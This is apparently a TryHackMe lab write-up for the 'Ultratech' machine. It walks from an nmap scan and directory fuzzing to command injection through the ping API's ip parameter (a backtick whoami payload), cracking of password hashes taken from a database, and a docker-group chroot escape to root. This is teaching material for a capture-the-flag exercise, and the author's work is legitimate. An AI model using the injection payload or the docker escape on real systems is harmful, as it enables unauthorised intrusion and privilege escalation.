 ```yaml
---
date: 2020-05-30 07:41:34
layout: post
title: "Ultratech"
subtitle: 
description: 
image: /writeup/assets/img/ultratech/ultratech.png
optimized_image:
category: tryhackme
tags: medium
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/ultratech1">Link</a> to the machine on tryhackme.

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.119.217
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-09 22:56 IST
Nmap scan report for 10.10.119.217
Host is up (0.44s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops


TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   194.42 ms 10.8.0.1
2   195.05 ms 10.10.119.217

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.09 seconds
```

Since, there were 4 ports open.Started with the most interesting port that is 21. But anonymous login was not allowed.

Went on to the port 8081 and visited the website hosted at that port. The website was for api.
![placeholder](/writeup/assets/img/ultratech/api.png "api")

Nothing much found here so visted the port 31331 which had a website hosted.
![placeholder](/writeup/assets/img/ultratech/homepage.png "home")

Tried to find hidden directories and pages through ffuf.
```bash
ffuf -w wordlist -u http://10.10.119.217/FUZZ
```
![placeholder](/writeup/assets/img/ultratech/dir.png "dir")

The js directory had a api.js script.
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

The script showed two api auth and ping.ping can be used to run commands on the machine.

```bash
http://10.10.117.219/ping?ip=10.9.12.192 `whoami`
```
![placeholder](/writeup/assets/img/ultratech/rce.png "rce")

Running **ls** on the machine through the ap shows a file named **utech.db.sqlite**.
Listed contents of it with cat.

The file contained password hashes of two accounts; admin and r00t.

Cracked the hashes and logged in through the auth api as r00t.
```url
http://10.10.119.217:8081/auth?login=r00t&password=n******
```
![placeholder](/writeup/assets/img/ultratech/r00t.png "r00t")

Not much to be found.The creddentials for r00t also worked on ssh and gave the shell.

The r00t user was part of docker group.
```bash
id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

Through the command on GTFObins for docker, tried to get the root shell.
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This failed as there was no image named alpine.

```bash
docker ps
```
This shows there is no image.
```docker ps -a
```
This shows that bash is present as image.

So ran
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

to get the root shell.
![placeholder](/writeup/assets/img/ultratech/root.png "root")

